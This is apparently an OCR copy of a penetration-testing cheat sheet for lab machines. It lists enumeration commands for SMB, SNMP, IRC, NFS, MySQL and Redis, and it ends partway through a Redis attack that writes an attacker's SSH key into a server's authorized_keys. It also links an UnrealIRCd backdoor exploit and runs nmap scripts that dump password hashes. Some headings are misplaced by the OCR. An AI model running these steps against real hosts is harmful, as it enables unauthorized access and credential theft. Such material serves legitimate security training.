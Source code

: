 > **nmblookup** - collects NetBIOS over TCP/IP client used to lookup NetBIOS names.
**smbclient**- an ftp-like client to access SMB shares
**nmap** - general scanner, with scripts
**rpcclient** - tool to execute client side MS-RPC functions
**enum4linux** - enumerates various smb functions
wireshark

## **SNMP (161)** 
```
1. snmpwalk -c public -v1 <IP>
2. snmpcheck -t <IP> -c public
3. onesixtyone -c names -i hosts
4. nmap -sT -p 161 <IP> -oG snmp_results.txt
5. snmpenum -t <IP>
```
## **IRC (194,6667,6660-7000)**
```
1. nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000 irked.htb
2. https://github.com/Ranger11Danger/UnrealIRCd-
```

## **3.2.8.1-Backdoor (exploit code)**
```
1. NFS (2049)
2. showmount -e <IP>
3. mkdir /mnt/nfs
4. mount -t nfs <IP>:/nfspath-shown /mnt/nfs
5. Permission Denied ? (https://blog.christophetd.fr/write-up-vulnix/)
```

## **MYSQL (3306)**
* ```
 nmap -sV -Pn -vv <IP> -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
```

## **Redis (6379)**
In the output of config get * you could find the home of the redis user (usually /var/lib/redis or /home/redis/.ssh), and knowing this you know where you can write the authenticated_users file to access via ssh with the user redis. If you know the home of other valid user where you have writable permissions you can also abuse it: 

1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.10.10.10 -x set crackit 
4. Save the public key to the authorized_keys file on redis server:

```
root@Urahara:~# redis-cli -h <IP>
